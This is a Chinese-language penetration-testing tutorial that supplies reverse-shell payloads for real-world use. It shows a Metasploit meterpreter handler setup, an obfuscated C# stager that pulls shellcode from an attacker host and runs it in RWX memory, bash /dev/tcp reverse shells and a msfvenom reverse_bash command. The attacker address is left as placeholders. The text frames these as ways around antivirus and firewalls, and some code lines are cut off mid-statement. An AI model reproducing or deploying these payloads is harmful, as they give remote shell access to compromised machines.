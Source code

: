 在实战中可能会遇到各种诉求 payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了 C#，Bash

ps:在线代码高亮：http://tool.oschina.net/highlight

### 1、C#-payload
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.107
LHOST => 192.168.1.107
```

混淆：
```c#
using System; using System.Net; using System.Net.Sockets; using System.Runtime.InteropServices; using System.
namespace RkfCHtll { class LiNGeDokqnEH {
static byte[] idCWVw(string VVUUJUQytjlL, int eMcukOUqFuHbUv) {
    IPEndPoint nlttgWAMdEQgAo = new IPEndPoint(IPAddress.Parse(VVUUJUQytjlL),
eMcukOUqFuHbUv); 
    Socket fzTiwdk = new Socket(AddressFamily.InterNetwork,
SocketType.Stream, ProtocolType.Tcp); 
    try { fzTiwdk.Connect(nlttgWAMdEQgAo);}
    catch { return null;}
    byte[] gJVVagJmu = new byte[4];
    fzTiwdk.Receive(gJVVagJmu, 4, 0);
    int GFxHorfhzft = BitConverter.ToInt32(gJVVagJmu, 0);
    byte[] mwxyRsYNn = new byte[GFxHorfhzft + 5]; 
    int yVcZAEmXaMszAc = 0;
    while (yVcZAEmXaMszAc < GFxHorfhzft)
    { yVcZAEmXaMszAc += fzTiwdk.Receive(mwxyRsYNn,yVcZAEmXaMszAc + 5, (GFxHorfhzft - yVcZAEmXaMszAc) < 4096 
    byte[] XEvFDc = BitConverter.GetBytes((int)fzTiwdk.Handle);
    Array.Copy(XEvFDc, 0, mwxyRsYNn, 1, 4); mwxyRsYNn[0] = 0xBF;
    return mwxyRsYNn;}
static void hcvPkmyIZ(byte[] fPnfqu) {
    if (fPnfqu != null) {
        UInt32 hcoGPUltNcjK = VirtualAlloc(0,(UInt32)fPnfqu.Length, 0x1000, 0x40);
        Marshal.Copy(fPnfqu, 0, (IntPtr)(hcoGPUltNcjK), fPnfqu.Length);
        IntPtr xOxEPnqW = IntPtr.Zero; 
        UInt32 ooiiZLMzO = 0;
        IntPtr wxPyud = IntPtr.Zero;
        xOxEPnqW = CreateThread(0, 0, hcoGPUltNcjK, wxPyud, 0, ref ooiiZLMzO);
        WaitForSingleObject(xOxEPnqW, 0xFFFFFFFF); }}
static void Main(){
    byte[] dCwAid = null; dCwAid = idCWVw("xx.xx.xx.xx", xx);
    hcvPkmyIZ(dCwAid); }
        [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 qWBbOS,UInt32 HoKzSHMU, UInt [DllImport("kernel32")]private static extern
IntPtr CreateThread(UInt32 tqUXybrozZ, UInt32 FMmVpwin, UInt32 H
[DllImport("kernel32")] private static extern UInt32
WaitForSingleObject(IntPtr CApwDwK, UInt32 uzGJUddCYTd);
```

![](media/926b5570b97743dcfdc212edb6604589.jpg)


### 2、Bash-payload
```bash
i >& /dev/tcp/xx.xx.xx.xx/xx 0>&1
```  
![](media/49ee03061e17179d4022d4fc02df4da6.jpg)  

```bash
exec 5<>/dev/tcp/xx.xx.xx.xx/xx
cat <&5 | while read line; do $line 2>&5 >&5;done
```  
![](media/9b61ec08224188e6d2e172a47df7861a.jpg)

### 附录：
msfvenom 生成 bash
```bash
root@John:~# msfvenom -p cmd/unix/reverse_bash LHOST=xx.xx..xx.xx LPORT=xx > -f raw > payload.sh
```

参数简化
项目地址：  
https://github.com/g0tmi1k/mpc  
![](media/4b4fa44f7174bc8361028253fefead0e.jpg)

>   Micropoor
